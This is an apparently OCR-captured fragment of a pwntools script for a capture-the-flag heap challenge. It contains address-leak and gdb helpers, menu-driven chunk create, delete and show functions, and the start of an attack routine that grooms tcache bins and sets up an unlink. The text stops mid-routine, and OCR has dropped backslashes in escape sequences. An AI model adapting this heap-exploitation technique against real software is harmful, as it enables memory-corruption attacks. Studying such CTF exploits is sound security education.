 ```
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def creat(sh,chunk_size,value):
    sh.recvuntil('Choice: ')
    sh.sendline('1')
    sh.recvuntil('Size: ')
    sh.sendline(str(chunk_size))
    sh.recvuntil('Content: ')
    sh.send(value)

def delete(sh,index):
    sh.recvuntil('Choice: ')
    sh.sendline('2')
    sh.recvuntil('Idx: ')
    sh.sendline(str(index))

def show(sh,index):
    sh.recvuntil('Choice: ')
    sh.sendline('3')
    sh.recvuntil('Idx: ')
    sh.sendline(str(index))


def Attack():
    # Your Code here
    while True:
        sh = get_sh()

        # Clean Bins
        for i in range(7 + 11):
            creat(sh, 0x18 , 'Clean' + 'n')
        for i in range(7 + 3):
            creat(sh, 0x38 , 'Clean' + 'n')
        for i in range(7 + 9):
            creat(sh, 0x68 , 'Clean' + 'n')
        for i in range(7 + 2):
            creat(sh, 0x78 , 'Clean' + 'n')
        for i in range(5):
            creat(sh, 0xC8 , 'Clean' + 'n')
        for i in range(6):
            creat(sh, 0xE8 , 'Clean' + 'n')

        # Make unlink

        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(64 + i) + 'n')
        creat(sh, 0xBF8 , 'pad' + 'n')
```